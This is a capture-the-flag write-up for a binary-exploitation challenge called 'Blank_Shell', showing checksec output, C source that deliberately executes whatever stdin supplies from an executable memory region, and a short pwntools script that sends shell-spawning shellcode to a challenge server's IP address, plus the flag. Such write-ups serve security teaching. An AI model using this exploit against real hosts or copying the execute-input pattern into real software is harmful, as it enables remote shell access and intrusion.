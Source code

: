 # Blank_Shell

**Description**:  
We meet atlast, Agent 007! I present to you the blank shell of the Egyptian Sarcophagus. Whatever you give it will be presented back to you by this special Sarcophagus. Remember, the shell maybe empty but in lies treasures untold. To your imminent victory!


**Author:  [Ath3n1x](https://twitter.com/Ath3n1x)**


**Solution**: 
First lets check the permissions with `checksec`:
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Except for canary, everything else is enabled. 

Now lets run the program and take a look at its source. 
```c
int main(int argc, char **argv) { 
    int* addr = mmap(0, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
    read(0, addr, 100);
    
    void (*shellcode)() = (void (*)()) addr;
    shellcode();
}
```

Here you can see that the program is using the `mmap` system call to allocate a memory region and then reads data into this allocated memory from the standard input (stdin) before attempting to execute it as a function.
`shellcode();` calls the function pointed to by shellcode. Since this function pointer is set to the memory region where data was read from standard input, it attempts to execute that data as if it were a function.

So in short, it creates an executable region in memory and then takes in any arbitary shellcode that the user gives and executes it.

Therefore if we provide a shellcode that can spawn a shell then its imminent victory!

**Exploit**:
```python
from pwn import *

p = remote("13.234.11.113", 30125)

context.arch = "amd64"

p.sendline(asm(shellcraft.sh()))

p.interactive()
```


**Flag: `shaktictf{sh3llc0d1ng_15_4_p13c3_0f_c4k3_9270138712038}`**            
